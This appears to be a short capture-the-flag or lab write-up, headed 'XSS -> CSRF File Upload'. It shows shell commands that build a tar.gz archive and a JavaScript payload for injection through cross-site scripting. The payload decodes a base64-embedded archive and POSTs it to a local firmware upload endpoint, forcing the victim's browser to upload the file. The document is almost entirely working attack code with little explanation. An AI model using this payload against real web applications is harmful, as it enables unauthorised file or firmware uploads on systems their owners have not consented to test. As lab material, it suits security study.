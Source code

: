 #### XSS -> CSRF File Upload 

Generating File Upload 1

```bash
(base) [hacker@hackerbook tmp]$ rm t
(base) [hacker@hackerbook tmp]$ nano AAAA
(base) [hacker@hackerbook tmp]$ tar -czvf aa.tar.gz AAAA
AAAA
(base) [hacker@hackerbook tmp]$ 
```

Payload

```html
<script>
var b64Data = "H4sIAAAAAAAAA+3OMQ7DIBBE0a19ij0CGLBr7pALoIjIVlIBuX+w08eVneY/rTTSaoqJMUY5mekm77e0czDfdHb/78Yg1o/e2N6bnfScXBA1Zw/bvGtLRVWWdH/m8quXS71i0LVuy1q1X9KWa9PH+srD8O9RAAAAAAAAAAAAAAAAAIBDH3pQVEcAKAAA";
    
async function sendFile()
{
    var FILENAME = "test.tar.gz"
    
    var ENDPOINT = "http://127.0.0.1:1337/api/firmware/upload";
    
    /// Upload file from b64 //////////////////////////
    const byteCharacters = atob(b64Data);
    const byteNumbers = new Array(byteCharacters.length);
    for (let i = 0; i < byteCharacters.length; i++) {
        byteNumbers[i] = byteCharacters.charCodeAt(i);
    }
    const byteArray = new Uint8Array(byteNumbers);
    var blob = new Blob([byteArray], { type: "text/html"});
    
    /*//var URL = "http://localhost:8000/" + FILENAME;
    let blob = await fetch(URL).then(r => r.blob());
    */
    
    /// Uploading ////////////////////////////////////
    var formData = new FormData();
    formData.append("file", blob, FILENAME);
    var request = new XMLHttpRequest();
    request.open("POST", ENDPOINT);
    request.send(formData);
}
sendFile()
</script>
```
